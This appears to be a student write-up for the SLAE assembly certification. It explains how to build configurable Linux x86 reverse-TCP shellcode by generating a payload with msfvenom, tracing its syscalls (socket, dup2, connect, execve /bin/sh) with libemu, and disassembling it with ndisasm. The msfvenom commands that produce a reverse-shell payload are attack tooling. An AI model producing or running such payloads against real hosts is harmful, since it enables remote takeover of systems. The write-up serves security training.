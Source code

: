 # Assignment #2: Shell_Reverse_TCP shellcode

- Create a Shell_Reverse_TCP shellcode

    - Reverse connects to configured IP and Port

    - Execs Shell on successful connection

- IP and Port number should be easily configurable


---------------------------------------------------


## Usage

```bash
python wrapper.py $IP $PORT
```

![Screenshot](images/wrapper/2.png)

If there are not input variables, the program asks for them:

![Screenshot](images/wrapper/1.png)


Test with port 7777:

![Screenshot](images/wrapper/3.png)

Result:

![Screenshot](images/wrapper/4.png)

If the port causes problems, a warning message will appear:

![Screenshot](images/wrapper/5.png)


## First approach: Libemu


After installing Libemu, we will use the sctest binary. We can get the result using the binary directly:

```bash
msfvenom -p linux/x86/shell_reverse_tcp --platform=Linux -a x86 -f raw LPORT=8888 LHOST=127.0.0.1 | ./sctest -vvv -Ss 10000 -G reverseshell.dot
```

Or we can use the libemu.sh script (in scripts/ folder):

```bash
sh libemu.sh "msfvenom -p linux/x86/shell_reverse_tcp --platform=Linux -a x86 -f raw LPORT=8888 LHOST=127.0.0.1" reverseshell | tee libemu_res/libemu_res.txt
```

The result:


```cpp
int socket (
     int domain = 2;
     int type = 1;
     int protocol = 0;
) =  14;
int dup2 (
     int oldfd = 14;
     int newfd = 2;
) =  2;
int dup2 (
     int oldfd = 14;
     int newfd = 1;
) =  1;
int dup2 (
     int oldfd = 14;
     int newfd = 0;
) =  0;
int connect (
     int sockfd = 14;
     struct sockaddr_in * serv_addr = 0x00416fbe => 
         struct   = {
             short sin_family = 2;
             unsigned short sin_port = 47138 (port=8888);
             struct in_addr sin_addr = {
                 unsigned long s_addr = 16777343 (host=127.0.0.1);
             };
             char sin_zero = "       ";
         };
     int addrlen = 102;
) =  0;
int execve (
     const char * dateiname = 0x00416fa6 => 
           = "//bin/sh";
     const char * argv[] = [
           = 0x00416f9e => 
               = 0x00416fa6 => 
                   = "//bin/sh";
           = 0x00000000 => 
             none;
     ];
     const char * envp[] = 0x00000000 => 
         none;
) =  0;
```

Once we know the system calls or syscalls, the values used in them and the order, it is necessary to get the hexadecimal values for every syscall, using cat and printf to print the hexadecimal value:

```bash
cat /usr/include/i386-linux-gnu/asm/unistd_32.h | grep listen

printf "%x\n" 363
```

Or the syscallhex.sh script (in scripts/ folder)


```bash
sh syscallhex.sh listen
```



The system calls and their values are:

- Socket:   359 (0x167)

- Dup2:     63 (0x3f)

- Connect:  362 (0x16a)

- Execve:   11 (0xb)


Also it is important to know how the system calls work in Linux. As stated in the [Skape's paper about egghunters](http://www.hick.org/code/skape/papers/egghunt-shellcode.pdf) "the system call interface that is exposed to user-mode applications in Linux (on IA32) is provided through soft-interrupt 0x80. The following table describes the register layout that is used across all system calls"

![Screenshot](images/wrapper/6.png)

Knowing this and the values from the Libemu's output, it is possible to write the nasm code.


## Creating the Python wrapper

Get the shellcode changing the "\" to "\\":

![Screenshot](images/2.png)

Detect where the port (8888 or 0x22b8 in hexadecimal), the IP and the auxiliar value used to substract to the IP are being used:

![Screenshot](images/3.png)

Now we know the value in the original shellcode which must be substituted. After this, we just must take the input to the wrapper script, translate the port number to hexadecimal (in big endian format) and print the new shellcode with the port updated.


------------------------------------------------------------------

## Second approach: Ndisasm

A second approach, which can be considered easier, is to get the nasm file from the raw output from msfvenom:
```bash
msfvenom -p linux/x86/shell_reverse_tcp LHOST=127.0.0.1 LPORT=8888 --platform=Linux -a x86 -f raw | ndisasm -u -
```

![Screenshot](images/4.png)


It can be compiled:

![Screenshot](images/5.png)


And it works correctly:

![Screenshot](images/6.png)

This is included in the **ndisasm_approach** folder, but the wrapper has been developed and tested only for the first approach.



------------------------------------------------------------------

## Some useful links
- http://man7.org/linux/man-pages/man2/socket.2.html
- https://stackoverflow.com/questions/19850082/using-nasm-and-tcp-sockets
- http://man7.org/linux/man-pages/man2/socket.2.html
- https://rosettacode.org/wiki/Sockets
- http://www6.uniovi.es/cscene/CS5/CS5-05.html
- https://stackoverflow.com/questions/48773917/why-creating-a-remote-shell-using-execve-doesnt-overwrite-file-descriptors-and
- https://www.tutorialspoint.com/assembly_programming/assembly_system_calls.htm
- https://forum.nasm.us/index.php?topic=889.0



---------------------------------------------------

## Note

This blog post has been created for completing the requirements of the SecurityTube Linux Assembly Expert certification: https://www.pentesteracademy.com/course?id=3

Student ID: SLAE - 1433
